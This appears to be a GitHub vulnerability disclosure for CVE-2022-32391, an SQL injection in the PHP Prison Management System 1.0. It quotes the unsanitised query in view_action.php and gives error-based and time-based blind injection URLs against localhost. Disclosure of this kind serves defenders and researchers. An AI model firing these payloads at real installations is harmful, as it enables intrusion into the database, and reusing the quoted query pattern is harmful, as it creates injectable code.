


# CVE-2022-32391
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[*] Vulnerability Location : `$_GET['id']` in `/pms/admin/actions/view_action.php:4`
```php
$qry = $conn->query("SELECT * from `action_list` where id = '{$_GET['id']}' and delete_flag = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/actions/view_action.php?id=1%27-if(database()/**/=/**/'pms_db',0,1)%23

# Time Based
http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/like/**/'pms_db',0,sleep(1))%23
```
- True : 
`http://localhost/pms/admin/actions/view_action.php?id=1%27-if(database()/**/=/**/'pms_db',0,1)%23`

- False : 
`localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'wrong',0,1)%23`
